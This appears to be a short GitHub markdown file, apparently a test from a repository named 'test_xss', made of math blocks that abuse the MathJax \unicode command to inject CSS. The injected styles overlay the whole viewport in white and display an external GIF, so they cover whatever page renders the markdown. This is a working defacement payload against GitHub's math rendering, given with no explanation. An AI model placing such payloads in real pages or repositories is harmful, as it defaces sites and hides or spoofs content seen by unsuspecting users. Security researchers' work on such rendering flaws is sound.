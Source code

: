```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/pedestrianlove/test_xss/blob/main/nothing-to-see-here.gif?raw=true');]{x0000}$}

```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 99; position: fixed; top: 0; left: 0; height: 180vh; width: 100vw; background: white;]{x0000}$}
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/pedestrianlove/test_xss/blob/main/nothing-to-see-here.gif?raw=true');]{x0000}$}
